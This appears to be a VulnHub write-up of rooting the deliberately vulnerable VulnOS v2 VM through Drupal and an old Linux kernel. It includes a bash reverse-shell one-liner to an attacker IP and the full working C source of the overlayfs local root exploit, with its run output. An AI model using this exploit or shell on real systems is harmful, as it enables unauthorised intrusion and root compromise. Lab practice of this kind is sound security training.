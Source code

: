 ### Part 1: Enumeration

I started with nmap scan:

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/1.png)

Port 22 and 80 are open, i started with http, it was hosting this website

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/2.png)

After clicking on website i got redirected to jabc company website

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/3.png)

I fired up dirsearch and found many interesting directories in this site

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/4.png)

from the directories result, i suspected it was using drupal, so i ran whatweb and found out it was using old version of drupal which was vulnerable to many exploits:

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/5.png)

### Part 2: Foothold

##### searchsploit result:

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/6.png)

then, i fired up metasploit and used `exploit/unix/webapp/drupal_drupalgeddon2` module and got a shell

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/7.png)

i used this bash oneliner to get more interactive shell: `bash -c 'bash -i >& /dev/tcp/192.168.36.21/3669 0>&1'`

then i searched for user with loginshell:

```
www-data@VulnOSv2:/var/www/html/jabc$ cat /etc/passwd | grep sh$
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
vulnosadmin:x:1000:1000:vulnosadmin,,,:/home/vulnosadmin:/bin/bash
postgres:x:107:116:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```

### Part 3: root

I found out it was using vulnerable Linux kernel

```
uname -a
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
```

which was vulnerable to 'overlayfs'-local privilege escalation.

Copy this codeblock in file with '.c' extension, eg: a.c

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/types.h>
#include <signal.h>
#include <fcntl.h>
#include <string.h>
#include <linux/sched.h>

#define LIB "#include <unistd.h>\n\nuid_t(*_real_getuid) (void);\nchar path[128];\n\nuid_t\ngetuid(void)\n{\n_real_getuid = (uid_t(*)(void)) dlsym((void *) -1, \"getuid\");\nreadlink(\"/proc/self/exe\", (char *) &path, 128);\nif(geteuid() == 0 && !strcmp(path, \"/bin/su\")) {\nunlink(\"/etc/ld.so.preload\");unlink(\"/tmp/ofs-lib.so\");\nsetresuid(0, 0, 0);\nsetresgid(0, 0, 0);\nexecle(\"/bin/sh\", \"sh\", \"-i\", NULL, NULL);\n}\n    return _real_getuid();\n}\n"

static char child_stack[1024*1024];

static int
child_exec(void *stuff)
{
    char *file;
    system("rm -rf /tmp/ns_sploit");
    mkdir("/tmp/ns_sploit", 0777);
    mkdir("/tmp/ns_sploit/work", 0777);
    mkdir("/tmp/ns_sploit/upper",0777);
    mkdir("/tmp/ns_sploit/o",0777);

    fprintf(stderr,"mount #1\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/proc/sys/kernel,upperdir=/tmp/ns_sploit/upper") != 0) {
// workdir= and "overlay" is needed on newer kernels, also can't use /proc as lower
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/sys/kernel/security/apparmor,upperdir=/tmp/ns_sploit/upper,workdir=/tmp/ns_sploit/work") != 0) {
            fprintf(stderr, "no FS_USERNS_MOUNT for overlayfs on this kernel\n");
            exit(-1);
        }
        file = ".access";
        chmod("/tmp/ns_sploit/work/work",0777);
    } else file = "ns_last_pid";

    chdir("/tmp/ns_sploit/o");
    rename(file,"ld.so.preload");

    chdir("/");
    umount("/tmp/ns_sploit/o");
    fprintf(stderr,"mount #2\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc") != 0) {
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc,workdir=/tmp/ns_sploit/work") != 0) {
            exit(-1);
        }
        chmod("/tmp/ns_sploit/work/work",0777);
    }

    chmod("/tmp/ns_sploit/o/ld.so.preload",0777);
    umount("/tmp/ns_sploit/o");
}

int
main(int argc, char **argv)
{
    int status, fd, lib;
    pid_t wrapper, init;
    int clone_flags = CLONE_NEWNS | SIGCHLD;

    fprintf(stderr,"spawning threads\n");

    if((wrapper = fork()) == 0) {
        if(unshare(CLONE_NEWUSER) != 0)
            fprintf(stderr, "failed to create new user namespace\n");

        if((init = fork()) == 0) {
            pid_t pid =
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
            if(pid < 0) {
                fprintf(stderr, "failed to create new mount namespace\n");
                exit(-1);
            }

            waitpid(pid, &status, 0);

        }

        waitpid(init, &status, 0);
        return 0;
    }

    usleep(300000);

    wait(NULL);

    fprintf(stderr,"child threads done\n");

    fd = open("/etc/ld.so.preload",O_WRONLY);

    if(fd == -1) {
        fprintf(stderr,"exploit failed\n");
        exit(-1);
    }

    fprintf(stderr,"/etc/ld.so.preload created\n");
    fprintf(stderr,"creating shared library\n");
    lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
    if(lib != 0) {
        fprintf(stderr,"couldn't create dynamic library\n");
        exit(-1);
    }
    write(fd,"/tmp/ofs-lib.so\n",16);
    close(fd);
    system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c");
    execl("/bin/su","su",NULL);
}

```

then after running these command i got root shell

```
www-data@VulnOSv2:/tmp$ gcc a.c -o ofs
gcc a.c -o ofs
www-data@VulnOSv2:/tmp$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@VulnOSv2:/tmp$ ./ofs
./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# whoami
root
```

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/8.png)

I got root like this.
